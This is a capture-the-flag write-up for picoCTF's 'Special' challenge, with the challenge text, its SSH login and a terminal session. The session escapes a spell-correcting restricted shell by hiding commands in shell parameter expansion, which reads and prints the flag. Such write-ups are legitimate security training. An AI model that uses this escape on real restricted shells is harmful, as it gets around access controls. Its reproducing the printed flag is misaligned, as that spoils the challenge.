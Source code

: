 ## Objetivo 
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM) Start your instance to see connection details.

Additional details will be available after launching your challenge instance.

Start your instance to see connection details. `ssh -p 64669 ctf-player@saturn.picoctf.net` The password is `af86add3`
## Solución  

```bash 

┌──(kali㉿kali)-[~]
└─$ ssh -p 64669 ctf-player@saturn.picoctf.net 
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Sep 17 17:17:02 2024 from 127.0.0.1
Special$ lsls

Less 
sh: 1: Less: not found
Special$ Traceback (most recent call last):
  File "/usr/local/Special.py", line 19, in <module>
    elif cmd[0] == '/':
IndexError: string index out of range
Connection to saturn.picoctf.net closed.
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ssh -p 64669 ctf-player@saturn.picoctf.net
ctf-player@saturn.picoctf.net's password: 
Permission denied, please try again.
ctf-player@saturn.picoctf.net's password: 
Permission denied, please try again.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Sep 17 17:29:22 2024 from 127.0.0.1
Special$ ls
Is 
sh: 1: Is: not found
Special$ {parameter?ls}
{parameter?ls} 
sh: 1: {parameter?ls}: not found
Special$ ${:ls}
${:ls} 
sh: 1: Bad substitution
Special$ ${parameter=cd blargh}
${parameter=cd blargh} 
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt} 
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_6a2763f6}Special$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.


```

## Notas Adicionales 

### Referencias
